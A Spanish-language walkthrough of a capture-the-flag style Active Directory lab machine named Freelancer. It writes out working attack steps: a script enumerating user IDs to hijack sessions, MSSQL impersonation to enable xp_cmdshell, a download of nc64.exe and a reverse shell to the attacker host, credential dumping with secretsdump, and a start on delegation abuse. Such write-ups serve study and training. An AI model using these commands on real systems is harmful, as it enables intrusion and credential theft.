

## Enumeración

Últimamente me he obsesionado con el directorio activo; por eso prácticamente todas —por no decir todas— las máquinas *medium* y *hard* son de directorio activo. Como ya hemos visto en las anteriores, podemos darnos cuenta de que es un directorio activo, pero esta vez está aplicando virtualhosting.


Para aplicar el virtualhosting y que nuestro equipo sepa a dónde redirigir la IP, vamos a añadirlo a nuestro archivo `/etc/hosts`. Primero, enumeremos la máquina para ver si hay credenciales filtradas por algún lado o si están compartiendo recursos.


No tenemos recursos compartidos, ni podemos acceder con credenciales nulas. Algo a destacar es que el nombre del equipo es DC (Domain Controller), pero no podemos sacar nada más de aquí. Así que vamos a analizar la página que tiene, porque estuve enumerando un poco y no había nada.

#### Analizando la página web


Echando un vistazo por la página, he realizado fuzzing, pero no encontré rutas relevantes; en los subdominios no encontramos absolutamente nada. Así que vamos a registrarnos como Freelancers.


Este registro es un martirio. Intenté ver si era susceptible a una inyección SQL o algo similar, intenté restablecer la contraseña por olvido y otras cosas, pero nada. Ahora probaremos si como empleador podemos conectarnos.


Es exactamente el mismo login, así que no me quedó más opción que registrarme como empleador. Ten cuidado al registrarte y usar el mismo usuario porque queda guardado; cuando intentes entrar te dirá que no has confirmado la cuenta, pero puedes restablecer la contraseña y ya estaría.


### Código QR

Navegando por la página encontré una sección donde se generaba un código QR que se actualiza cada 5 minutos para poder acceder sin iniciar sesión desde el móvil. Vamos a analizar qué contiene este código utilizando [zbarimg](# 'Herramienta de línea de comandos para leer y decodificar códigos de barras y QR desde imágenes o streams.'). El resultado es una URL.


Es una URL que consta de un base64 y un hash en MD5, al decodificar el base64 nos encontramos con un número.

```
echo 'MTAwMTE=' | base64 -d;echo
10011
```

Esto me hace pensar que puede ser un identificador de usuario. Comprobémoslo.

Primero veamos cómo se genera el código QR.


Esto es crítico porque lo que está haciendo es generar un QR aleatorio y luego, codificando en base64, pone el id. Comprobemos si es verdad.

```bash
curl "http://freelancer.htb/accounts/otp/qrcode/generate/" -b "sessionid=rb9k2wctizogm1e6gw3vk0ky09bkfi53" -o- > qr.img 2>/dev/null && zbarimg qr.img 2>/dev/null | cut -d ':' -f 2-
```
```
http://freelancer.htb/accounts/login/otp/MTAwMTE=/750b34c9c2dc06da241075df48779ca9/
```
Esto nos devuelve de nuevo la URL. Vamos a retocarla para mandarle el id de un usuario anterior y así confirmaremos la deducción anterior. 

```
echo 10010 | base64
MTAwMTAK
```
Modificamos la URL:

```
http://freelancer.htb/accounts/login/otp/MTAwMTAK/750b34c9c2dc06da241075df48779ca9/
```


Como sospechábamos, tenemos acceso al usuario que creamos antes y al que no pudimos entrar. Veamos ahora cómo conseguir la URL.

### Craft Script  

```bash
#!/bin/bash

for i in $(seq 1 888);do
  http=$(curl "http://freelancer.htb/accounts/otp/qrcode/generate/" -b "sessionid=i1dyi0h2sg2exwmgh6dfjem3lt8etdi1" -o- > qr.img 2>/dev/null && zbarimg qr.img 2>/dev/null | cut -d ':' -f 2-  | sed "s/MTAwMTE=/$(echo $i | base64)/")
  
   
    header=$(curl -s -D - -o /dev/null "$http" | grep -i "Set-Cookie")
    if [ -n  "$header" ]; then
      echo -e "
-----------INFO------------"
      echo -e "
URl -> $http
"
      echo "$header"  
      echo "ID valid user -----> $i"
      echo -e "---------------------------
"
    
      sleep 7
    fi
done
```

Ya que hemos descubierto que podemos listar usuarios intenté hacerlo desde el mil pero no encontré nada, así que pensé que lo más lógico era hacerlo desde el 1; esto funcionó a la perfección, pero no podía acceder con la URL porque el token expiraba.


Ahí fue cuando decidí enumerar por la cookie de sesión para ver si podía ocurrir un [session hijacking](# 'Secuestro de sesión: ataque que toma control de una sesión autenticada robando o usurpando su identificador (cookie/token) para acceder como el usuario legítimo.').


Tenemos dos cookies, pero claramente la que vamos a usar es la `sessionid`, así que empecé con la que usaba el usuario Nº 2.

### Session hijacking

Para poder secuestrar la sesión tenemos que ir a la página, dar clic derecho, inspeccionar y en *Storage* veremos las cookies almacenadas. 


Cambiamos la segunda línea y recargamos (Ctrl+R).



Estamos dentro de la sesión del administrador. Estuve mirando un poco la página pero no veía nada relevante; solo que ahora era el admin. Se me ocurrió que podría haber más rutas comunes a las que acceder con esa cookie de sesión.

```bash
ffuf -u 'http://freelancer.htb/FUZZ' -H 'Set-Cookie: sessionid=i7qaceh7r3povwl318x093nnj80db80h' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```


Me intuía que esta ruta podía existir, y efectivamente encontramos un panel administrativo en condiciones.


## Jugando con MSSQL

```
SELECT name FROM master.sys.databases
```


Vemos las bases de datos que hay.

```
SELECT name FROM sys.syslogins
```


Ahora probaré si tenemos ejecución remota de comandos.

También intenté habilitar la ejecución remota de comandos y activar `_xp_cmdshell_` y `show advanced options`, pero no fue posible. En estos casos, una opción sería usar `IMPERSONATE` (suplantación de identidad) para probar si es posible.

##### Impersonate

La mejor guía para enumerar y hacer pentesting a una base de datos MSSQL está en [HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mssql-microsoft-sql-server/index.html); allí explican cómo enumerar todo a la perfección. Personalmente no he encontrado una guía más completa. Así que empecemos verificando si hay algún usuario que podamos suplantar: 

```
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
```


Ya podemos suplantar al usuario `sa`.

```
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
```

La respuesta es `sa`, así que vamos bien encaminados. Ahora que podemos suplantar a `sa` y que estamos como `Freelancer_webapp_user`, añadamos a nuestro usuario al grupo apropiado.

```
EXECUTE AS LOGIN = 'sa'
EXEC sp_addsrvrolemember 'Freelancer_webapp_user', 'sysadmin'
```

Nos devolverá `No results. Previous SQL was not a query.`, pero es normal; ahora lo confirmaremos con:

```
SELECT IS_SRVROLEMEMBER('sysadmin');
```

Nos debería devolver un `1`. Aquí la base de datos se comporta bastante raro: tenemos que ejecutar todo muy rápido, o si no no podremos ejecutar correctamente los comandos; habrá que repetirlos si fallan.

Ya estamos en el grupo `sysadmin`, así que ahora podemos reconfigurar. Empecemos con lo básico:

```
sp_configure 'show advanced options', '1'
RECONFIGURE
```

Nos devolverá un mensaje sin respuesta, pero es completamente normal: la acción se está aplicando. Seguimos:

```
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

Y ahora confirmemos si realmente lo que hicimos funcionó con:

```
EXEC xp_cmdshell 'whoami'
```

Y EFECTIVAMENTE TENEMOS EJECUCIÓN REMOTA DE COMANDOS. Ahora lo que nos interesa es establecer una reverse shell y, como hemos hecho en máquinas anteriores, usaremos [nishang](# 'Framework en PowerShell con scripts y payloads para pentesting, post-explotación y red team en sistemas Windows.'). Pero me resultó imposible colarlo: fallé en la decodificación de Windows y otras cosas. Me resultó muy extraño que no pudiera ejecutar, así que al final de este writeup explicaré cómo evitar que el Defender bloquee por completo el payload.

En otras ocasiones hemos usado la ejecución de comandos para subir ejecutables como `nc.exe`, netcat, payloads hechos con Metasploit, etc. Metasploit ya no se usa tanto; preparándonos para la OSCP, lo más seguro es usar `nc.exe` y probar si podemos ejecutarlo. Podemos subirlo al directorio `temp`, pero primero veamos si cumplimos los requisitos.

- **Comprobar si hay tráfico de red entre la base de datos y nuestra máquina**

Para esto usamos `ping` en la base de datos víctima y `tcpdump` en nuestro equipo.


Aquí ya podemos observar que sí hay tráfico de red; veamos si recibimos en nuestra máquina alguna traza.


- **Ver si la máquina atacante tiene curl instalado**


###### Subiendo nc64.exe

Ya nos hemos cerciorado de que tenemos todo lo necesario para subir archivos; vamos a usar el directorio temp para subirlo y ejecutarlo, y rogaremos que no dé problemas.

- Montemos nuestro servidor web con Python para compartir el archivo.
- Una vez lo tengamos, desde la consola de la base de datos habilitaremos las opciones avanzadas y `xp_cmdshell`. Rápidamente ejecutamos el siguiente comando:

```
exec xp_cmdshell 'curl http://10.10.14.11/nc64.exe -o "%TEMP%\nc64.exe"'
```

La respuesta debería ser algo como esto; si no, hiciste algo mal. Veamos si quedó bien guardado:

```
EXEC xp_cmdshell 'dir %TEMP%'
```


Ya tenemos el archivo en el directorio temporal; también tenemos `curl` y tráfico de red. Establezcamos una reverse.

Recuerden que para ponerse en escucha y entablar conexión remota con una máquina Windows usamos `rlwrap` para que a la hora de tener una consola interactiva podamos tener historial, usar Ctrl+L, las flechas, etc.

```
rlwrap -cAr nc -nlvp 888
```

Y en la consola de la base de datos ejecutaremos una conexión netcat común y corriente, añadiéndole `-e cmd` para que netcat ejecute `cmd` cuando se conecte. 

```
EXEC xp_cmdshell '%TEMP%/nc64.exe 10.10.14.11 888 -e cmd'
```

### Usuario mikasaAckerman

Establecemos conexión como el usuario `sql_svc`. Al hacer un `ipconfig` confirmamos que estamos dentro de la máquina víctima. 


Intenté buscar en el Desktop la flag de usuario, pero aún no estábamos con el usuario que nos daría las puertas para escalar. Empecé a buscar en el directorio del usuario y encontré varias cosas interesantes: dentro de *Downloads* hay un archivo llamado `SQLEXPR-2019_x64_ENU`; en su interior tiene varios archivos, pero hay uno que suele llamar la atención.


Por lo general (por no decir casi siempre), los archivos de configuración contienen contraseñas en texto claro.


Obtenemos dos contraseñas en texto claro, así que ahora sacaremos una lista de usuarios (muy fácil usando `net user`) y la guardaremos para usar con `NetExec`.


Para hacer una lista la guardas en un archivo llamado `users` y usas `tr` para organizarlo:

```
cat users | tr -s ' ' '\n'
```

Una vez tenemos nuestra lista procedemos a buscar a quién pertenece la primera contraseña usando `nxc` (NetExec):

```
nxc smb 10.10.11.5 -u users -p 'IL0v3ErenY3ager'
```


Pertenece al usuario `mikasaAckerman`. Listé los archivos compartidos pero no había nada interesante; tampoco pertenece al grupo de acceso remoto, así que en estos casos lo que se hace antes de seguir intentando acceder de otra manera es usar `RunasCs.exe`. Esta herramienta permite ejecutar procesos usando credenciales explícitas de otro usuario.

Puedes descargarla desde su [repositorio](https://github.com/antonioCoco/RunasCs) y su uso es sencillo; revisa la ayuda (`--help`) para ver cómo emplearla. La otra contraseña no pertenece a ningún usuario, así que la dejamos. Subimos el `.exe` con `curl` montando el servidor web Python.

Para usarla nos establecemos una reverse shell con el usuario al que tenemos las credenciales, nos ponemos en escucha desde otra terminal usando `rlwrap` y desde la máquina víctima ejecutamos la reverse:

```
RunasCs.exe mikasaAckerman IL0v3ErenY3ager cmd.exe -r 10.10.14.11:444
```


Este usuario sí tiene la flag en el escritorio :)

## Escalando privilegios

En el mismo Desktop encontramos dos archivos más; uno es un correo en el que se reporta que, debido a un error provocado por la actualización, se ha enviado un volcado de la memoria. En este punto es conveniente descargarnos el volcado, que es un `.7z`.

###### Compartiendo archivos con impacket-smbserver

El funcionamiento es el siguiente: levantaremos un servidor **SMB** para compartir archivos.

```
impacket-smbserver <nombreSMB> $(pwd) -smb2support -username <name> -password <password>
```

Luego, desde la máquina víctima haremos dos movimientos. Primero montaremos nuestro recurso SMB:

```
net use \\10.10.11.5\<nombreSMB> /u:<name> <pass>
```


Esto nos indica que nos hemos conectado correctamente y desde nuestro servidor SMB montado veremos lo siguiente:


Ahora podremos copiar el archivo `MEMORY.7z` a nuestro equipo:

```
copy MEMORY.7z \\10.10.14.11\mySMB\MEMORY.7z
```

Esto empezará a descargar el archivo; es bastante grande, así que tengan paciencia. Mientras se termina de descargar veamos qué es un volcado de memoria.

### Memory DUMP 

El volcado de memoria es una copia completa del contenido de la memoria RAM del sistema. En este caso lo hacen para que un analista pueda reconstruir el estado del sistema justo antes del fallo e identificar la causa. Para nosotros, como atacantes, viene perfecto porque podemos extraer información confidencial.

- **¿Cómo podemos tratarlo desde nuestro equipo?**

Para el tratamiento del volcado usaremos [MemProcFS](https://github.com/ufrisk/MemProcFS), una herramienta forense utilizada para montar y analizar un memory dump o la memoria viva de un sistema como si fuera un sistema de archivos virtual en Linux.

- **¿Cómo se usa?**

Primero tenemos que descomprimir nuestro archivo `.7z`; es muy pesado, así que tocará esperar un poco.

```
7z x MEMORY.7z
```

Ahora creamos el directorio donde montaremos todo, por ejemplo `/tmp/brain_dump`, y montamos:

```
./memprocfs -device MEMORY.DMP -mount /tmp/brain_dump
```

Esto tomará como dispositivo el descomprimido de `MEMORY.7z` y lo montará en un sistema de archivos mucho más sencillo de analizar en la ruta indicada.

- **Analizando la montura**

Cuando nos dirigimos a `/tmp/brain_dump/`, encontraremos la estructura típica que genera MemProcFS, básicamente divide de la siguiente manera:

- **name/ y pid/** → son tus mejores amigos para buscar procesos.
- **registry/** → para credenciales y configuraciones.
- **sys/** → para drivers y rootkits.
- **forensic/ y misc/** → para metadatos y contexto.

En este momento lo que más nos interesa es encontrar credenciales y poder seguir desplazándonos lateralmente por la máquina, así que echemos un vistazo a **registry/**.


### Impacket-secretsdump 

Esta herramienta nos permite, como su nombre indica, extraer secretos de Windows desde archivos offline (SAM/SYSTEM/NTDS) y otras fuentes. Ahora mismo nos interesa la función para analizar los hives; dentro de `registry/hive_files` encontraremos dos archivos: uno `SAM` y otro `SECURITY`.


Con esta información podemos empezar a jugar. Para usar `impacket-secretsdump`, empezamos con el archivo `SAM`:

```
impacket-secretsdump -sam 0xffffd3067d935000-SAM-MACHINE_SAM.reghive  -system 0xffffd30679c46000-SYSTEM-MACHINE_SYSTEM.reghive LOCAL
```


He de reconocer que me ilusioné con el hash del administrador, pero NO — fue solo una trampa. Al probarlo con NetExec encontré que no era válido y no podíamos hacer pass-the-hash; así que aún quedaba inspeccionar el archivo `SECURITY`.

```
impacket-secretsdump -security 0xffffd3067d7f0000-SECURITY-MACHINE_SECURITY.reghive  -system 0xffffd30679c46000-SYSTEM-MACHINE_SYSTEM.reghive LOCAL
```

Es el mismo procedimiento que con el archivo `SAM`; esto nos informa de una nueva credencial: `PWN3D#l0rr@Armessa199`. Vamos a probar con `nxc` para ver si corresponde a algún usuario.


### Entrando como el usuario lorra199


La contraseña encontrada pertenece al usuario `lorra199` y, en efecto, tenemos acceso remoto a ella.


### BloodHound

Para escalar hasta el administrador usaremos BloodHound. Busqué la relación entre `lorra199` y el `Administrator` y encontramos un camino a seguir.


Empecemos. Lo primero que tendremos que hacer es crear un SPN (identificador de Kerberos que asocia un servicio con una cuenta en el AD).

```
impacket-addcomputer -method SAMR -computer-name 'Atr4x$' -computer-pass 'Summer2018!' -dc-host 10.10.11.5 -domain-netbios freelancer.htb 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
```

Tendremos que modificar el `method` porque, si no, entra en conflicto con los permisos SSL. ¿Para qué hacemos esto? Para conseguir un TGS.

```
impacket-rbcd -delegate-from 'Atr4x$' -delegate-to 'dc$' -action 'write' 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
```
